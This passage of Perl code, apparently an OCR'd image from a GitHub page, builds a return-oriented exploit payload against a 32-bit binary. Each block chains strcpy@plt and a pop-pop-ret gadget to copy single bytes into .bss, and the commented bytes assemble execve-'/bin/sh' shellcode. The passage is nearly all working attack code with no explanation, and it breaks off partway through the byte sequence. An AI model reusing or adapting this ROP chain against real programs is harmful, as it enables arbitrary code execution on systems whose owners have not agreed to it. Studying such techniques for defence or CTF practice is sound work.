 ```perl
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+1);
	$payload .= pack('L', 0x08048398);

	# \xf7
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+2);
	$payload .= pack('L', 0x080484e6);

	# \xe1
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+3);
	$payload .= pack('L', 0x08048334);

	# \xb0
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+4);
	$payload .= pack('L', 0x0804832c);

	# \x0b
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+5);
	$payload .= pack('L', 0x080481fc);

	# \x51
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+6);
	$payload .= pack('L', 0x08048114);

	# \x68
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+7);
	$payload .= pack('L', 0x080482f6);

	# \x2f
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+8);
	$payload .= pack('L', 0x08048134);

	# \x2f
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+9);
	$payload .= pack('L', 0x08048134);

	# \x73
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+10);
	$payload .= pack('L', 0x08048142);

	# \x68
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+11);
```